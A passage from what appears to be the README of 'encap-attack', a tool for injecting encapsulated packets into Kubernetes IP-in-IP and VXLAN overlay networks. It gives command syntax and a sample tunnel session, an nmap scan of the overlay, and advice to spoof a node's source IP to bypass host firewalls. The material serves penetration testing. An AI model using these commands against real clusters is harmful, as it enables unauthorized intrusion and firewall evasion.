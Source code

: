 ```shell
encap-attack -d <destination_host_ip> -s <another_host_ip> tunnel -a <api_server_address> -r <route_cidr>
```

Example:

```
# encap-attack -d 192.168.124.10 -s 192.168.124.11 tunnel -a 192.168.124.9 -r 10.2.0.0/16 -r 10.3.0.0/16
Running in IP-in-IP mode

Interface IP: 192.168.124.200

Kubernetes API server certificate information:
  Subject: kube-apiserver
  Issuer: kubernetes
  IPs: 10.96.0.1, 192.168.124.9
  Hostnames: kubernetes, kubernetes.default, kubernetes.default.svc, kubernetes.default.svc.cluster.local, master

Guessed service CIDR: 10.96.0.0/12
kube-dns DNS server may be available at: 10.96.0.10:53
Cluster DNS suffix: cluster.local


Starting tunnel tun0, press Ctrl+C to stop...


Encapsulating packet: IP / UDP / DNS Qry "b'kube-dns.kube-system.svc.cluster.local.'"
Sending encapsulated packet: Ether / IP / IP / UDP / DNS Qry "b'kube-dns.kube-system.svc.cluster.local.'"
```

All requests to the defined routes (in this example, `10.2.0.0/16`, `10.3.0.0/16`, and the service IP range guessed from information from the API server - 10.96.0.0/12) will then be encapsulated and routed into the overlay network. This permits the use of other tooling (e.g., `nmap`) within the overlay network from an external perspective:

```shell
nmap -sT 10.2.0.0/16
```

### Attack a VXLAN network - `vxlan`

VXLAN functionality uses the `vxlan` subcommand.

The functionality for VXLAN networks is identical to that provided for IP-in-IP networks with the `ipip` command, but requires the additional information needed by the VXLAN protocol, as discussed above. Similar to IP-in-IP, you must ensure the correct destination host/node is used, or you will receive no response.

To send a single DNS request, run the following. We recommend spoofing the source IP as another host or Kubernetes node to bypass host firewall rules, using the `-s` flag:

```shell
encap-attack vxlan -d <destination_host_ip> -s <another_host_ip> -mi <vtep> --vni <vni> -pd <vxlan_tunnel_port> request -di <internal_destination_ip> dns -t <query_type> <domain_to_query>
```
